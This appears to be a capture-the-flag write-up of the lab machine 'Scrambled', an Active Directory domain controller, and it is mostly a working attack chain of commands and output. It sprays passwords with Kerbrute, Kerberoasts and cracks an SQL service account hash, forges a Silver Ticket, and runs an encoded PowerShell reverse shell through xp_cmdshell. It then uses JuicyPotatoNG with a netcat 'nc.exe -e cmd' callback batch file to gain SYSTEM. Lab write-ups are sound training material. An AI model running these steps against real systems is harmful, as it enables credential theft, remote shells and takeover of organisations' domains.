

# Scrambled (Medium)

<figure><figcaption></figcaption></figure>

## Information Gathering

Scanned all TCP ports:

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Scramble Corp Intranet
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-10-18 20:55:00Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2022-10-18T20:56:19+00:00; -5s from scanner time.
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC1.scrm.local
| Not valid before: 2022-06-09T01:42:36
|_Not valid after:  2023-06-09T01:42:36
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC1.scrm.local
| Not valid before: 2022-06-09T01:42:36
|_Not valid after:  2023-06-09T01:42:36
|_ssl-date: 2022-10-18T20:56:19+00:00; -5s from scanner time.
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2022-10-18T20:56:19+00:00; -5s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2022-10-18T20:47:19
|_Not valid after:  2052-10-18T20:47:19
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2022-10-18T20:56:19+00:00; -5s from scanner time.
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC1.scrm.local
| Not valid before: 2022-06-09T01:42:36
|_Not valid after:  2023-06-09T01:42:36
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC1.scrm.local
| Not valid before: 2022-06-09T01:42:36
|_Not valid after:  2023-06-09T01:42:36
|_ssl-date: 2022-10-18T20:56:19+00:00; -5s from scanner time.
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| ms-sql-info: 
|   10.129.7.56:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb2-time: 
|   date: 2022-10-18T20:55:41
|_  start_date: N/A
|_clock-skew: mean: -5s, deviation: 0s, median: -5

4411/tcp  open  found?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, NCP, NULL, NotesRPC, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|     SCRAMBLECORP_ORDERS_V1.0.3;
|   FourOhFourRequest, GetRequest, HTTPOptions, Help, LPDString, RTSPRequest, SIPOptions: 
|     SCRAMBLECORP_ORDERS_V1.0.3;
|_    ERROR_UNKNOWN_COMMAND;
5985/tcp  open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf     .NET Message Framing
49667/tcp open  msrpc      Microsoft Windows RPC
49673/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc      Microsoft Windows RPC
49700/tcp open  msrpc      Microsoft Windows RPC
49704/tcp open  msrpc      Microsoft Windows RPC
63672/tcp open  msrpc      Microsoft Windows RPC
```

Enumerated UDP ports:

```
```

Notes:

* Appears to be a Domain Controller due to the port schema
* <mark style="color:yellow;">53/DNS</mark> - <mark style="color:yellow;">scrm.local</mark> & <mark style="color:yellow;">DC1.scrm.local</mark>
  * Add to /etc/hosts
  * We get a DNS name and hostname
* <mark style="color:yellow;">80/http</mark> - We have a web server we need to go look at it
  * IIS, ASPX
* <mark style="color:yellow;">88/Kerberos</mark> - AS-REP if we get a user kerberoast if we get valid creds
* <mark style="color:yellow;">1433/mssql</mark> - Impacket-mssqlclient
* <mark style="color:yellow;">5985/WinRM</mark> - We can potentially WinRM into this
* <mark style="color:yellow;">4411/found?</mark> - Interesting port discovered on 4411 and being reported as found

## Enumeration

### Port 53 - DNS

Manual Zone Transfer:

<figure><figcaption></figcaption></figure>

* This was done in an attempt to increase our attack surface

### Port 80 - HTTP (IIS/ASPX)

Dirsearch Forced Directory Browsing:

```
dirsearch -u http://10.129.7.56/


  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/xyconix/.dirsearch/reports/10.129.7.56/-_22-10-18_17-01-09.txt

Error Log: /home/xyconix/.dirsearch/logs/errors-22-10-18_17-01-09.log

Target: http://10.129.7.56/

[17:01:09] Starting: 
[17:01:10] 403 -  312B  - /%2e%2e//google.com                              
[17:01:15] 403 -  312B  - /\..\..\..\..\..\..\..\..\..\etc\passwd           
[17:01:20] 403 -    1KB - /assets/                                          
[17:01:20] 301 -  149B  - /assets  ->  http://10.129.7.56/assets/           
[17:01:27] 403 -    1KB - /images/                                          
[17:01:27] 301 -  149B  - /images  ->  http://10.129.7.56/images/           
[17:01:27] 200 -    2KB - /index.html                                       
[17:01:31] 200 -    2KB - /passwords.html                                   
[17:01:36] 200 -    2KB - /support.html                                     
                                                                             
Task Completed
```

* I notice a <mark style="color:yellow;">/passwords.html</mark>

<figure><figcaption><p>Easy win?</p></figcaption></figure>

* We need to find <mark style="color:yellow;">VALID usernames to be able to possibly exploit this</mark>
* <mark style="color:yellow;">Password will be the same as the username!</mark>
* /support.html

<figure><figcaption><p>Interesting find</p></figcaption></figure>

* NTLM authentication is supposedly disabled
* "This may cause problems for some of the programs that you use"
* Another interesting page was revealed on <mark style="color:yellow;">/supportrequest.html</mark>
* Did we find a possible user?

<figure><figcaption></figcaption></figure>

* <mark style="color:yellow;">ksimpson</mark>
* If we remember above, we found out that usernames are going to be using the passwords!

### Port 88 - Kerberos

* We have a potential user above <mark style="color:yellow;">ksimpson</mark>
* <mark style="color:yellow;">I placed ksimpson in users.txt and ksimpson in passwords.txt</mark>
* We can validate the user with Kerbrute's userenum function

Userenum:

<figure><figcaption></figcaption></figure>

<mark style="color:yellow;">ksimpson is a valid user!</mark>

Syntax for userenum:

```
./kerbrute_linux_amd64 userenum -d scrm.local users --dc 10.129.7.56
```

* Now we need to try and use passwordspray with ksimpson!

passwordspray:

```
./kerbrute_linux_amd64 passwordspray --dc DC1.scrm.local -d scrm.local users ksimpson
```

* We get valid credentials!

.png>)

### Port 4411 - Found?

* Strange port
* Associated with the directory found on <mark style="color:yellow;">/salesorder.html</mark>

<figure><figcaption><p>Preview</p></figcaption></figure>

Netcat Banner Grab:

```
nc -v 10.129.7.56 4411            Tue 18 Oct 2022 05:07:50 PM EDT
scrm.local [10.129.7.56] 4411 (?) open
SCRAMBLECORP_ORDERS_V1.0.3;
```

## Exploitation

### TGT Crafting & Kerberoasting

* After using Kerbrute to verify valid credentials, it is time to do some Kerberoasting since we now have valid credentials!
* Here, we are simply taking advantage of the nature of the Kerberos Authentication protocol
* If the Domain Admin had enforced stronger password requirements, it would have made our job a lot harder
* This TGT will allow us to request a TGS from the KDC

Kerberoasting Attempt 1:

```
impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -dc-ip 10.129.7.56 -k -request
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] exceptions must derive from BaseException
```

* Let's attempt to craft a TGT and then try again

TGT Crafting:

```
impacket-getTGT scrm.local/ksimpson:ksimpson
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Saving ticket in ksimpson.ccache
```

* You can see that the TGT was saved as <mark style="color:yellow;">ksimpson.ccache</mark>
* We need to make sure that we make the TGT a variable

Export KRB5CCNAME so that Impacket will use it:

```
export KRB5CCNAME=user.ccache
```

* We can now utilize <mark style="color:yellow;">klist</mark> to query information about it

Klist TGT Information:

```
klist ksimpson.ccache

Ticket cache: FILE:ksimpson.ccache
Default principal: ksimpson@SCRM.LOCAL

Valid starting       Expires              Service principal
10/18/2022 20:07:53  10/19/2022 06:07:53  krbtgt/SCRM.LOCAL@SCRM.LOCAL
        renew until 10/19/2022 20:07:58
```

Kerberoast:

* Please download the latest version of GetUserSPNs before you do this and run that version!



```
./GetUserSPNs.py scrm.local/ksimpson:ksimpson -dc-host dc1.scrm.local -k -no-pass -request
```

Kerberos TGS Hash:

```
$krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$eef70600c3b221ae7d4a62fe02be56ac$98c6c62d5cfc30a946f793282378b2e5c46a33feb629508c9c315dc9650dfd4511972982aa46e2504a503f5326381089c09f2bb5cf345f92b8ce8906541fc3bd48ce45db69194dc12c8d7a3984cfcd31df8b799f23bc614f7b838c5b9391e980147676a734d85107f4f7c99676bb8300c5212e2d2d63256ea79412fb7139c2a442cc4e43b28ed7d4514d67442df7cdac06bec3ea7353ad0dda669afeca68cba3a285f61c68257f6b865f9668d795e81080105217597796bf7d040578f79b2a4cb6ce990528f77e137a65470e4c0e5fc00510f3056e074a42bdf375c4054c1e502592fdd27f846197c9a76d681501e1aa688e47b3725d62a00ffa97447ed88993e53ef65bd89a1587c7cfa0b902388a546b2ca6559d8d12681cfaaf5f847c6ce622e56fd083dd9795870cfcdb426cd3838df36acef478cc40de07596ad99df70311b04776406e652720ada70c24770fa59dcebf035a35084f7ff25a1fe3bb65eb8adade43bbcba5ed8d8a33bb71977db6921ec497a8d8217b1f5e840c10a29a253a8a5d17c1c386dec29bc3850a050fd518ac25566dce130985511275a2f4940587e6fb0ac12320e0363eb2d0142f25374231a48670cd1c8ba0b2fc4f0d92834b10b79463802d72988cf2029bdd117b644a9144956bfab01dfea8bec6a35bd9837e0f054965e0112625cd2013be75747641b8fec984d16b98102532f8fb4dc848ecbaa2083c40f61c1f92f5f28e1610dca2b3acdb9674a4070442be8d1e8aaf6b84dae5f6a0b358a99f0ec2bd26c741a1bbce4218e55de0b3ce226cf765eb0bcd439d676831953901d9e9c97b04221726e3ca78f8d54fa59016021645b0ed776a65c6ca8336d1abfd060e6fa178940626517399ef5858665d754ff6819476a74391f340109ebedcc96d10549c1660cfe090ccbdec9d4d9b6a7566380a514420da89dbae0838e1eaec4a79c9b2aebbefbf3be076329954dffdb699538d81d4d4f0051486f7bffe6676224e0e8a56d926bb9be5a701b2632f989df3533b5ab799e217d207406082225ce22560f49d8079340db2d003bc5d120fa4e080536980922d3b258d9d8b5e4c2bf60ad5892f4e12f183fb7a4a8e7eb6514cf2df49fdc69dddf7b4d54af72b70097968e0f977f3ecb439a7161f89c65ce92dfb2a0e69e54ebc29d69c0eca5590222277d7195652ee40a4e25d09f18c09d21bfd1ff556ebe897187150da4b6355ac0c26a0bcc4efdcdef4adbf11e08be0b1234fc62aaeedb72f52e427f71d53a74bbe600498ab8505fbc801c8a94fbfa6b2ea5fda83c1e272ad86374ba86588e409a302469c6b2b2f236a0048e3c17d3269c809b8b20ebdba4f210747a4a05774f68d7df351f36d85b70ab41af15bb6a87390d3e057067a5cb12afb93768a933bfba3890bf0fd09bd028cc1738e2cf85ebfb855f8
```

* Note the <mark style="color:yellow;">sqlsvc</mark>, this means this account is a <mark style="color:yellow;">SQL service account</mark>&#x20;
* I chose to utilize Windows because it has a new auto-detection mode for hashes!
* I put the entire hash into a file called hashes.txt
* I then chose to use the rockyou.txt wordlist

Syntax:

```
.\hashcat.exe hashes.txt .\rockyou.txt --show
```

<figure><figcaption></figcaption></figure>

* We are <mark style="color:green;">successful</mark> and get a password of <mark style="color:yellow;">Pegasus60</mark>

```
export KRB5CCNAME=ksimpson.ccache
```

Place the password into a creds file:

<figure><figcaption></figcaption></figure>

### Authentication

* At this point, I had tried to use our credentials in every way to connect to the host
* We need to get a bit more creative now
* Perhaps a Silver Ticket attack will work?
* We have a TGS hash and a TGT
* Since the hash is coming from a sqlsvc, I even tried to get an mssql shell

```
impacket-mssqlclient dc1.scrm.local -k
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Encryption required, switching to TLS
[-] ERROR(DC1): Line 1: Login failed for user 'SCRM\ksimpson'.
```

* Unfortunately, this did not work either
* sqlsvc is vulnerable to the Silver Ticket attack however!

### Silver Ticket Attack

Definition from HackTricks:

<figure><figcaption></figcaption></figure>

* Great article on Silver Tickets:



* We now need to obtain a <mark style="color:yellow;">Domain SID</mark>
* We can do this with <mark style="color:yellow;">Impacket-getPac</mark>

```
impacket-getPac -targetUser administrator scrm.local/ksimpson:ksimpson

Domain SID: S-1-5-21-2743207045-1827831105-2542523200
```

* Now that we have the Domain SID, we need to create the silver ticket
* We can do this with <mark style="color:yellow;">ticketer.py</mark>


```
python3 ticketer.py -spn MSSQLSvc/dc1.scrm.local -user-id 500 Administrator -nthash b999a16500b87d17ec7f2e2a68778f05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local
```


For this <mark style="color:yellow;">command to work, you need the following</mark>:

* SPN
* User-ID which will always be 500 with Administrator
* NTLM hash (obtained from SPN) -- Kerberoast
* Domain SID (obtained from getPac.py)
* Domain

It will generate a <mark style="color:purple;">ticket called Administrator.ccache</mark>

* Export the variable!

```
export KRB5CCNAME=Administrator.ccache
```

Run klist:

```
klist
Ticket cache: FILE:Administrator.ccache
Default principal: Administrator@SCRM.LOCAL

Valid starting       Expires              Service principal
10/19/2022 20:18:44  10/16/2032 20:18:44  MSSQLSvc/dc1.scrm.local@SCRM.LOCAL
        renew until 10/16/2032 20:18:44
```

* Notice how the ticket expires in 10 years
* The max age is actually 10 hours

We can now authenticate to the MSSQL service using the Silver Ticket we just created:

```
python3 mssqlclient.py dc1.scrm.local -k

SQL> help

SQL> enable_xp_cmdshell

SQL> xp_cmdshell whoami

scrm\sqlsvc

NULL

SQL>
```

We can now exploit this and get a reverse shell using a one-liner PowerShell reverse shell!

* The perfect reverse shell in this case would be found in <mark style="color:yellow;">/usr/share/nishang/Shells/Invoke-PowerShellTcpOneLine.ps1</mark>&#x20;
* Edit this and remove the comments from it
  * Be sure to add your tun0 address and port number you want to run a reverse shell on

Convert the Reverse Shell to UTF Little Endian and output it in base64 format:

```
cat Invoke-PowerShellTcpOneLine.ps1 | iconv -t UTF-16LE | base64 -w 0

JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACcAMQAwAC4AMQAwAC4AMQA0AC4ANwAzACcALAAxADMAMwA3ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACcAUABTACAAJwAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACcAPgAgACcAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkACgAKAA==
```

* Copy the base64 encoded string

Start a netcat listener on Kali:

```
nc -lnvp 1337
```

Go to the SQL Shell:


```
xp_cmdshell powershell -env JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACcAMQAwAC4AMQAwAC4AMQA0AC4ANwAzACcALAAxADMAMwA3ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACcAUABTACAAJwAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACcAPgAgACcAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkACgAKAA==
```


* You now have a reverse shell!

<figure><figcaption></figcaption></figure>

## Privilege Escalation

### Local enumeration

* <mark style="color:yellow;">Since we came from a Windows service, we can see that we have the privilege of SeImpersonatePrivilege</mark>

whoami /priv:

```
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
```

* There are many ways of exploiting this
* However, the easiest way to do this would be to use the JuicyPotato Exploit!


Juicy Potato Repo


Read more about Potato Exploits here:



### Juicy PotatoNG Exploit

Unzip the Potato zip file:

```
unzip JuicyPotatoNG.zip

JuicyPotato.exe
```

Start an HTTP server on Kali:

```
python3 -m http.server
```

Transfer with curl from Windows shell:

```
curl 10.10.14.73:8000/JuicyPotatoNG.exe -o JP.exe
```

Execute:

```
./JP.exe

Mandatory args: 
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch


Optional args: 
-l <port>: COM server listen port (Default 10247)
-a <argument>: command line argument to pass to program (default NULL)
-c <CLSID>: (Default {854A20FB-2D44-457D-992F-EF13785D2B51})
-i : Interactive Console (valid only with CreateProcessAsUser)


Additional modes: 
-b : Bruteforce all CLSIDs. !ALERT: USE ONLY FOR TESTING. About 1000 processes will be spawned!
-s : Seek for a suitable COM port not filtered by Windows Defender Firewall
```

Create a file called rev.bat:


```
C:\programData\nc.exe -e cmd 10.10.14.73 9001
```


* Essentially, this will invoke the nc.exe binary that we will transfer over and it will trigger our reverse shell

Now, locate and transfer nc.exe:


```
locate nc.exe
/usr/share/windows-resources/binaries/nc.exe

cp /usr/share/windows-resources/binaries/nc.exe .
```


Start your HTTP server back up again if you need to:

```
python3 -m http.server
```

Transfer rev.bat to Windows target:

```
curl 10.10.14.73:8000/rev.bat -o rev.bat
```

Start a nc listener on kali:

```
rlwrap -cAr nc -lnvp 9001
```

Trigger the reverse shell on Windows by invoking the nc binary (rev.bat) with the Juicy Potato exploit:

```
.\JP.exe -t * -p C:\programData\rev.bat
```

## Proofs

<figure><figcaption><p>root.txt</p></figcaption></figure>
